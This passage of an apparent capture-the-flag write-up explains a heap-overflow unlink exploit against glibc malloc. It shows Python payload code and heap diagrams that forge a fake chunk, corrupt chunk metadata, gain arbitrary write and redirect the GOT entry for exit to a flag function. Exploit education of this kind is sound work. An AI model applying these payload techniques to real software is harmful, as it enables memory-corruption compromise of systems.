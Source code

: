 ## Abusing heap overflow
I had no idea what the remote version of libc was, so I [assumed the worst](https://elixir.bootlin.com/glibc/glibc-2.31.9000/source/malloc/malloc.c)<sup>1</sup>. To exploit the latest version of malloc, we can follow the exploit laid out [here](https://heap-exploitation.dhavalkapil.com/attacks/unlink_exploit). We'll start by allocating two chunks:
```python
SIZE = 0x418
r.add('me', SIZE, '1')
r.add('me2', SIZE, '2')
```
`SIZE` needs to be large enough to not fall into the tcache/fastbins<sup>2</sup>, and 0x400+ is definitely big enough.

Right now, the heap looks like this:
```
+----metadata----+-member1-+----metadata----+-member2+
| prevsize, size | <data>  | prevsize, size | <data> |
+--------8-------+--SIZE---+--------8-------+--SIZE--+
```
We're going to create a fake chunk within member 1, such that member 1 (the "user-controlled" part of it, not including metadata preceding it) will look like this<sup>3</sup>:
```
<-------------------------------member 1------------------------------->
+-prevsize-+-size-+---------fd--------+---------bk--------+-garbage-+
|          | SIZE | ((int*)members)-3 | ((int*)members)-2 |    0    |
+-----4----+---4--+---------4---------+---------4---------+-SIZE-16-+
```
We'll also alter member 2's metadata:
```
<-----metadata------>
+-prevsize-+--size--+
|   SIZE   | SIZE+8 |
+-----4----+----4---+
```
We'll do both of these things at once by overflowing on `edit()`:
```python
payload = pack(SIZE).rjust()
payload+= pack(member1_ptr-context.bytes*3)
payload+= pack(member1_ptr-context.bytes*2)
payload = payload.ljust(SIZE,b'\0')
payload+= pack(SIZE) + pack(SIZE+8)
r.edit(1, len(payload), payload)
```
At this point, freeing the second member will cause malloc.c to attempt to merge the fake free chunk we created with the second chunk. In a convoluted series of events, this will cause the global `members[0].details` pointer to be overwritten with `(&members[0].details)-3`. Editing `members[0].details` _after_ freeing `members[1].details` will allow us to overwrite `members[0].details` to anything we want, and that will give arbitrary write+read: write from _yet another_ `edit()`, and read from `list()` (which, once again, we don't need here).

Since the goal is to just overwrite the GOT table, we'll replace `members[0].details` with `.got['exit']`, and we'll edit it to match `getflag()` before calling `exit()`.
